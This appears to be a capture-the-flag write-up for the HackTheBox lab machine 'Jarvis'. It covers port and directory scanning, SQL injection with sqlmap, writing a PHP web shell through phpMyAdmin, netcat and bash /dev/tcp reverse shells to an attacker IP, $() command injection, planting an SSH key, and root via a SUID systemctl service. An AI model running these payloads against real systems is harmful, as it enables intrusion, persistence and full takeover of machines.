 # Recon
As usual we start with a port scan against the target:
```
sudo nmap -sCV -O -p- 10.10.10.143 -oN nmap.txt T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/1.png">

We discover 3 open ports. We'll start by investigating the webservice on port 80. In the background we'll start a ```gobuster``` scan in search for files and directories.

# Enumeration
```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.143
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/2.png">

We've found a ```/phpmyadmin``` directory. When we browse to the directory we are welcomed with a login form. In the manuals we find out it's running version 4.8.0 which is known to have a remote code execution vulnerability. We do however need a username and password to use the exploit.

Trying ```supersecurehotel``` as username and password (found on the homepage) and other simple usernames and passwords didn't work.

```Whatweb``` didn't return much. There is a weird ```ironwaf```.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/3.png">

When we browse to the webservice on port ```64999``` we are immediately confronted with the following message:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/4.png">

# Initial Foothold (Method 1)
We can try to run ```sqlmap``` on the host. When we use ```crawl=2``` it'll also scan for links in pages. We combine this with ```--os-shell``` to hopefully get a shell on the host.
```
sqlmap -u http://10.10.10.143 --os-shell --crawl=2
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/5.png">

We can use this to get a more stable shell. We'll host a php reverse shell script on our attacking machine and download it using ```wget```. Then we browse to our page to get a reverse shell in return.

# Initial Foothold (Method 2)
Another method is to run ```sqlmap``` with the ```password``` argument to look for passwords om the database. 
```
sqlmap -u http://jarvis.htb/room.php?cod=1 --random-agent --passwords
```

We use the rockyou wordlist to crack the password and got a reult for user ```DBadmin```:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/8.png">

We can now use these credentials to login the ```/phpmyadmin``` page and run sql commands on the target. 
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/9.png">

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/command.php"
```

And test it by browsing to:
```
http://10.10.10.143/command.php?cmd=whoami
```
Let's use this to create a reverse shell. With a listener ready on our attacking machine we run the following on our target:
```
http://10.10.10.143/command.php?cmd=nc%2010.10.14.10%204444%20-e%20/bin/sh
```
This gives us a revse shell as user ```www-data```.

# Lateral Movement
We can run ```simpler.py``` as ```pepper```:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/6.png">

We can see that certain syumbols are blocked for use. This doesn't count for ```$```. We can abuse this to run additional code and ultimately gives us a reverse shell as user ```pepper```. First we'll try it out by giving ```$(whoami)``` as IP argument: 
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/7.png">

That worked. We can now try to create a reverse shell:

```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.10/4445 0>&1"' > /tmp/shell.sh
chmod +x /tmp/shell.sh
```
And then again run the following code while we have our ```nc``` listener ready:
```
/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
And enter ```$(/tmp/shell.sh)``` as IP. Now we have a shell als ```pepper```.

To get a more persistent access we will create a ssh keypair by running ```ssh-keygen``` on our attacking machine and by saving the ```id_rsa.pub``` as ```/home/pepper/.ssh/authorized_keys```. Now we can use ssh to login as ```pepper```.

# Privilege escalation
When we look for files with SUID set we spot ```systemctl```. GTFOBins tells us we use this to elevate our privileges by creating our own service in a configuration file. We will use our earlier created shell file and have our listener ready before running the following commands:

```
echo '[Service]
Type=oneshot
ExecStart=/bin/sh/ -c "tmp/shell.sh"
[Install]
WantedBy=multi.user.target' > pwn.service
```
We can now link link the service:
```
systemctl link /home/pepper/pwn
```
And finally start the service:
```
systemctl start pwn.service
````

Now we have access as ```root```.






